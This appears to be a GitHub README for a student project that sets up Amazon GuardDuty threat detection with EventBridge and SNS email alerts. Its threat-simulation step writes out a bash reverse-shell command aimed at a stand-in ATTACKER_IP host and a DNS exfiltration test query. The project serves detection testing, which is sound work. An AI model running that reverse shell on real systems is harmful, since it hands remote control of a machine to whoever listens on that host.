 #AWS GuardDuty Threat Detection Project

##Project Overview

This project demonstrates how to simulate and detect suspicious behavior on an EC2 instance using **Amazon GuardDuty**, and send real-time alerts to an email via **SNS (Simple Notification Service)**.

You will:
- Deploy an EC2 instance with simulated vulnerabilities
- Enable GuardDuty for threat detection
- Trigger test findings and real behavior (DNS exfiltration, reverse shell)
- Use EventBridge to forward GuardDuty alerts to SNS
- Receive alerts via email

---

## Architecture

```

\[EC2 Instance]
|
Simulated Threat
↓
\[GuardDuty]
↓
\[Amazon EventBridge Rule]
↓
\[Amazon SNS Topic]
↓
\[Email Notification]

````


## Steps to Deploy

### 1. Launch EC2 Instance
- AMI: Amazon Linux 2 or 2023
- Instance Type: t2.micro
- Enable SSH and optionally HTTP/HTTPS in the Security Group
- Add this User Data (for Java setup):
```bash
#!/bin/bash
dnf install -y java-17-amazon-corretto
````

### 2. Simulate Threats on EC2

SSH into the instance and run:

```bash
# Simulate DNS exfiltration
dig $(uuidgen).yourdomain.com

# Simulate reverse shell (for test only)
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```

---

### 3. Enable GuardDuty

* Go to **Amazon GuardDuty** > Enable
* GuardDuty will begin monitoring for suspicious behavior

---

### 4. Create an SNS Topic

* Name: `GuardDutyAlerts`
* Subscribe your email (Confirm via email)

---

### 5. Setup EventBridge Rule

* Service: `aws.guardduty`
* Event type: `GuardDuty Finding`
* Target: SNS Topic `GuardDutyAlerts`

---

### 6. Generate Sample Findings (Optional)

```bash
aws guardduty list-detectors
aws guardduty create-sample-findings --detector-id <detector-id>
```

---

## Example Alert Email

You’ll receive an email like this when a finding occurs:

```json
{
  "source": "aws.guardduty",
  "detail-type": "GuardDuty Finding",
  "detail": {
    "type": "Recon:EC2/PortScan",
    "severity": 5,
    "resource": {
      "instanceDetails": {
        "instanceId": "i-xxxxxx"
      }
    }
  }
}
```

---

## Learnings

* GuardDuty detects behavior, not vulnerabilities
* SNS + EventBridge is ideal for automated alerting
* Simulated attacks help test detection pipelines safely


## Security Note

> All simulations were conducted in a secure, isolated AWS environment with no real malware or external C2 communication. Never use real attacks in production accounts.

---

## References

* [AWS GuardDuty Documentation](https://docs.aws.amazon.com/guardduty/)
* [AWS SNS](https://docs.aws.amazon.com/sns/)
* [AWS CLI Guide](https://docs.aws.amazon.com/cli/)

---

## Author

**Md Khiruzzaman**
Cloud Engineering Intern
GitHub: [mkovy39](https://github.com/mkovy39)
